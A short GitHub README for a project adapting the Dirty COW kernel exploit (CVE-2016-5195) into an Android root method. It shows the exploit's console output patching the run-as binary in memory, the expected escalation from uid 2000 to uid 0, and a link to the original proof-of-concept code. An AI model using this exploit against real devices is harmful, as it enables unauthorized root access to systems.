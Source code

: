 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
    
Current Issue: run-as not working as expected    
Output:    
[*] mmap 0xf7158000    
[*] exploit (patch)    
[*] currently 0xf7158000=464c457f    
[*] madvise = 0xf7158000 14280    
[*] madvise = 0 1048576    
[*] /proc/self/mem -1048576 1048576    
[*] exploited 0xf7158000=464c457f    
adb shell /system/bin/run-as    
run-as: Usage:    
    run-as &lt;package-name&gt; [--user &lt;uid&gt;] &lt;command&gt; [&lt;args&gt;]    
    
Expected Output:    
[*] mmap 0xf7158000    
[*] exploit (patch)    
[*] currently 0xf7158000=464c457f    
[*] madvise = 0xf7158000 14280    
[*] madvise = 0 1048576    
[*] /proc/self/mem -1048576 1048576    
[*] exploited 0xf7158000=464c457f    
adb shell /system/bin/run-as    
running as uid 2000    
uid 0    
    
!!!WARNING HAS NOT BEEN TESTED USE AT OWN RISK!!!     
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
